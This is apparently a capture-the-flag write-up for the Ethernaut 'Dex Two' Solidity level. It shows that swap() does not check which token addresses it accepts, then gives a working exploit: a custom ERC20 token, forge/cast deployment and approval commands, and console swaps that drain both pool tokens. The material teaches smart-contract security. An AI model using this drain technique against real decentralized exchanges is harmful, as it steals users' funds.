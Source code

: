 ![](https://ethernaut.openzeppelin.com/imgs/BigLevel23.svg)

This level will ask you to break `DexTwo`, a subtlely modified `Dex` contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.

You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.

  Things that might help:

- How has the `swap` method been modified?

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import 'openzeppelin-contracts-08/access/Ownable.sol';

contract DexTwo is Ownable {
  address public token1;
  address public token2;
  constructor() {}

  function setTokens(address _token1, address _token2) public onlyOwner {
    token1 = _token1;
    token2 = _token2;
  }

  function add_liquidity(address token_address, uint amount) public onlyOwner {
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }
  
  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  } 

  function getSwapAmount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
    SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  address private _dex;
  constructor(address dexInstance, string memory name, string memory symbol, uint initialSupply) ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
  }

  function approve(address owner, address spender, uint256 amount) public {
    require(owner != _dex, "InvalidApprover");
    super._approve(owner, spender, amount);
  }
}
```

Solution:
## Analysis

Before going forward, I would highly recommend doing the [Level 22 - Dex](https://blog.dixitaditya.com/ethernaut-level-22-dex) before this one as I won't be going over the whole contract as that has been done previously.

Let's take a look at the vulnerable function -

```sol
function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapAmount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
}
```

If we will compare the same function from the [previous level](https://blog.dixitaditya.com/ethernaut-level-22-dex), we will see that there's a line missing in this one which is -

```sol
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

It is responsible for validating if the swapping is happening only for the two token addresses defined by the contract. Since this is absent from Dex Two, we are allowed to swap any tokens. Even the ones we create. This is what we have to do to drain the Dex Two.

---
## Calculations

To exploit the Dex Two, here's what we have to do:

- Create our own ERC20 token and mint ourselves (`msg.sender`) 400 ZombieTokens (ZTN) (Name of our malicious token).
- Send 100 ZTN to Dex Two so that the price ratio is balanced to 1:1 when swapping.
- Approve the Dex to spend 300 of our ZTN. We'll need this to swap 100 token1 and 200 token2. This will be clearer once we see the balance table below.
- Once all that is done, here's how the distribution of balance will be:

|Dex Two|||User|||
|---|---|---|---|---|---|
|token1|token2|ZTN|token1|token2|ZTN|
|100|100|100|10|10|300|

- Swap 100 ZTN with token1. This will drain all the token1 from the Dex Two.

|Dex Two|||User|||
|---|---|---|---|---|---|
|token1|token2|ZTN|token1|token2|ZTN|
|100|100|100|10|10|300|
|0|100|200|110|10|200|

- According to the formula in `get_swap_amount()`, to get all the token2 from the Dex, we need - `100 = (x * 100)/200` - `x = 200 ZTN`. Therefore, we need to swap 200 ZTN to get 100 token2. Once this is done, here's how the final balance table will look:

> ```
> The number of token2 to be returned = (amount of token1 to be swapped * token2 balance of the contract)/token1 balance of the contract.
> ```

|Dex Two|||User|||
|---|---|---|---|---|---|
|token1|token2|ZTN|token1|token2|ZTN|
|100|100|100|10|10|300|
|0|100|200|110|10|200|
|0|0|400|110|110|0|

Now it should be clear why we chose 400 ZTN to start with. Let's deploy our exploit code.

---
## The Exploit

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../lib/openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract ZombieToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("ZombieToken", "ZTN") public {
        _mint(msg.sender, initialSupply);
    }
}
```

```bash
forge create ZombieToken --private-key $DGPKEY --rpc-url $G_RPC_URL --constructor-args 400
```
```bash
cast call 0x6B61042E5E8138cfC69892dCc78637f7A6f73b8A "balanceOf(address)" "0x095454F216EC9485da86D49aDffAcFD0Fa3e5BE5" --private-key $DGPKEY --rpc-url $G_RPC_URL | cast --to-dec
```
```bash
cast send 0x6B61042E5E8138cfC69892dCc78637f7A6f73b8A "transfer(address,uint256)" "0x3F03baF3B56aEC751cAd20169E1F139b83f0F0f7" "100" --private-key $DGPKEY --rpc-url $G_RPC_URL
```
```shell
cast send 0x6B61042E5E8138cfC69892dCc78637f7A6f73b8A "approve(address,uint256)" "0x3F03baF3B56aEC751cAd20169E1F139b83f0F0f7" "300" --private-key $DGPKEY --rpc-url $G_RPC_URL
```
then go to js console:
```js
token1 = await contract.token1()
token2 = await contract.token2()
ZNT = "0x6B61042E5E8138cfC69892dCc78637f7A6f73b8A"
await contract.swap(ZNT, token1, 100)
await contract.swap(ZNT, token2, 200)
```
That's all